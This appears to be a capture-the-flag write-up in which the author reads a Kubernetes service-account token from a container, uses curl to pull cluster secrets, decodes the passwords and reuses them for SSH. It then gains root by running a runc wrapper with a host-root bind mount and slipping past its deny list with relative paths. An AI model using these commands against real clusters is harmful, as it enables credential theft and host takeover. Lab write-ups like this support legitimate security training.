
The Kubernetes API is available at this address. I'm unauthorized, so I'll look for Kube secrets on this container.
/var/run/secrets/kubernetes.io/serviceaccount

servciceaccount is an identity for processes executed within Kube clusters. It allows them to authenticate to the Kubernetes API and is meant to be used by machines and for automation.
With the token in hand, I can not authenticate to the Kube API that was blocked earlier. There is also a cert, which will allow me to drop the --insecure flag in curl.
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) && curl https://10.43.0.1:443 -H "Authorization: Bearer $TOKEN" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

There's not much I can do, even when authenticated. I'll check whether this token allows me to grab the Kube secrets, which should not be allowed. These secrets can contain passwords, secret data, and more.
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) && curl https://10.43.0.1:443/api/v1/namespaces/default/secrets -H "Authorization: Bearer $TOKEN" --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt

Quite a lot of data came back, including the user-secret-babywyrm object with a MASTERPASS value of VkVqcEtUbE1ZSGo1eDFTakdydWlzclM3UU5jdDBV. I've seen this babywyrm user in the WordPress DB with an uncrackable hash, so I'll try their credentials to SSH into the main box.
The password values are base64-encoded in this secret clump. After decoding, the password becomes:
babywyrm | VEjpKTlMYHj5x1SjGruisrS7QNct0U

Root Flag

The user can run this /opt/debug binary as root. The file binary does not exist on this box, so I don't really know what it is. It's owned by root as well, so I cannot cat or read it either.
Finding the administrative password

Upon running the binary, it requests a different administrative password. The user password does not work this time, but aside from it, the Kube secrets contained 3 other passwords.
"mariadb-password": "c1c1c3A0c3BhM3U3Ukx5ZXRyZWtFNG9T",
"mariadb-root-password": "c1c1c3A0c3lldHJlMzI4MjgzODNrRTRvUw=="
"wordpress-password": "TzhGN0tSNXpHaQ=="
The regular MariaDB password, decoded from b64 sW5sp4spa3u7RLyetrekE4oS, works for the administrative password.

Privilege escalation to root with runc wrapper container creation via relative paths
This debug bin is a wrapper for runc, a utility that allows users to run containers on Linux. Since it will be running as root, I'll look for a way to escalate privileges.
With the ability to run runc as root, I can run a container with the host's/ root directory mounted.
First, I will create a config file with sudo /opt/debug spec. In this config file, in the mounts section, I will add the root directory mount.
{
"type": "bind",
"source": "/",
"destination": "/",
"options": [
"rbind",
"rw",
"rprivate"
]
},

However, trying to run the malicious container fails because of the root mount.

Makes sense, as the wrapper was supposed to be restricted. I'll try using a relative path ../../ instead to see whether this will get blocked as well. This is aiming to exploit a targeted DENY list, which blocks only certain directories and absolute paths, instead of listing what can be accessed. This is not a good idea, as there is always a chance that a new bypass might be discovered, whereas an ALLOW list will just keep specifying what can be accessed, unbothered by attempts at bypassing.

This time it got further! The /dev/console error happens because terminal is set to true in the config. When that setting is true, runc tries to allocate a PTY (pseudo-terminal) and set up /dev/console inside the container.
My rootfs is minimal. There is no proper /dev/console device node set up, so it fails before the process even starts. I'll set the terminal setting to false

Rooted!